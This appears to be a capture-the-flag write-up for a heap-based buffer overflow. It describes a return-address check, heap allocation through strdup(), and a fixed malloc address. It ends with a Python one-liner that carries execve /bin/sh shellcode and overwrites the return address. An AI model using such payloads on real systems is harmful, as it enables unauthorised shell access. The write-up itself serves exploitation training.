 ![all function](./resources/functions.png "functions")

```
as we can see the main is simple it calls a function p().
```
![main function](./resources/main_function.png "main function")

```
....
```
![p function](./resources/p_function.png "p function")
```
as the source.c shows the function p() is doing a check on the return address to prevent modifications/jumps to the stack then it allocates to our input into the heap using a call to the strdup() function internally strdup calls malloc() and using ltrace we can notice that whenver we run the program it returns the same addresse where it allocated our input so we can start writing from that address then override the Instruction pointer with the address returned from malloc in order for the programe to jump to that adress and execute the code injected

python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'
```